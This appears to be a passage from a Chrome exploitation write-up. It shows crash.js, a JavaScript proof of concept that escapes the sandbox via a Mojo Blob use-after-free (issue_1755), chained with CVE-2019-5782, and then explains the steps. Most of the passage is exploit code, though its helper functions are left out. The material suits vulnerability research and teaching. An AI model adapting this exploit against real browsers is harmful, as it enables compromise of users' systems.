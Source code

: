 ```javascript
// crash.js

async function CreateWriter() {
  // create writer from blink.mojom.FileSystemManagerPtr ...
}

async function RegisterBlob0() {
  // register blob_0 to blob registry ...
}

async function crash(oob) {
  print('[sandbox_escape] exploiting issue_1755 to escape sandbox and crash browser');

  var writer = await CreateWriter()

  print('  [*] crafting renderer-hosted blob implementation')
  function Blob0Impl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }
  Blob0Impl.prototype = {
    getInternalUUID: async (arg0) => {
      print('  [*] getInternalUUID is called');

      print('  [!] freeing FileWriterImpl');
      create_writer_result.writer.ptr.reset();

      // sleep 3 seconds ...

      print('  [*] resuming FileWriterImpl::DoWrite, prepare to crash');
      return {'uuid': 'blob_0'};
    }
  };

  RegisterBlob0();

  let blob_impl = new Blob0Impl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
  blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));

  print('  [*] calling Write with renderer-hosted blob implementation')
  writer.writer.write(0, blob_impl_ptr);
}
```

In `index.html`, we are setting up the out-of-bound read/write bug by exploiting CVE-2019-5782. Then, at first we visit the page, we enable the Mojo binding, and reload the page. Now that the Mojo binding is enabled (not undefined), we call the `crash` function.

In `crash` function, we are registering a blob with id `blob_0` to blob registry, then we define our custom Blob implementation with a malicious implementation of `getInternalUUID`. Finally we call the `Write` function with a custom renderer-hosted blob implementation.
